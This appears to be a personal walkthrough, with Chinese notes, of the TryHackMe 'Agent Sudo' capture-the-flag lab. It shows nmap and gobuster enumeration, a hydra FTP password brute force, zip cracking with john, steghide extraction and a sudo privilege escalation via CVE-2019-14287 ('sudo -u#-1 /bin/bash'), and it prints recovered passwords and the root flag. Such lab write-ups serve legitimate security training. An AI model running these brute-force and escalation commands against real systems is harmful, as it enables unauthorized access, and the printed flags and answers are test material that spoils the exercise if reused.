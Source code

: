 Task 2  Enumerate

nmap -sV 10.10.79.7


nmap -sV 10.10.79.7
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-12 16:14 GMT
Nmap scan report for 10.10.79.7
Host is up (0.35s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 806.86 seconds


gobuster dir -u http://10.10.79.7/ -t 100 -w directory-list-2.3-medium.txt -x html,txt,php,phtml,sh

use user agent switcher


How many open ports?
A:3

How you redirect yourself to a secret page?

A:user-agent

What is the agent name?

A:chris
burp 慢慢試到user-agent:C

Attention chris,
注意克里斯，

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!
你還記得我們的交易嗎？請盡快告訴特工 J 這些東西。另外，更改您該死的密碼，太弱了！

From,
Agent R
從，
特工 R


Task 3  Hash cracking and brute-force


FTP password
hydra -l chris -P rockyou.txt -Vv -T 64 10.10.79.7 ftp
[21][ftp] host: 10.10.79.7   login: chris   password: crystal

filezilla 連上 下載3個檔案 2個圖片 1txt
cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

尊敬的 J 代理，

所有這些像外星人一樣的照片都是假的！代理 R 將真實圖片存儲在您的目錄中。您的登錄密碼以某種方式存儲在假圖片中。這對你來說應該不是問題。

從，
特工 C
 
分離兩張圖片
foremost -T cute-alien.jpg 
foremost -T cutie.png 


cutie.png  分出來一個zip

zip2john 00000067.zip > 00000067.txt
把zip作成john認得出的格式 再用john破解

john 00000067.txt
 破出來密碼為:alien 
 解開zip 
 得到To_agentR.txt
    Agent C,

    We need to send the picture to 'QXJlYTUx' as soon as possible!

    By,
    Agent R

echo -n 'QXJlYTUx' | base64 -d
Area51

steghide info cute-alien.jpg
steghide --extract -sf cute-alien.jpg
得到message.txt


cat message.txt 
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

scp Alien_autospy.jpg user@10.9.3.206:/tmp


Answer format: *******
Zip file password

Answer format: *****
steg password

Answer format: ******
Who is the other agent (in full name)?

Answer format: *****



Task 4  Capture the user flag



What is the user flag?


What is the incident of the photo called?



Task 5  Privilege escalation


CVE number for the escalation 

(Format: CVE-xxxx-xxxx)
sudo -l
CVE-2019-14287
sudo -u#-1 /bin/bash

Answer format: **************
What is the root flag?

Answer format: ********************************
(Bonus) Who is Agent R?

root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R


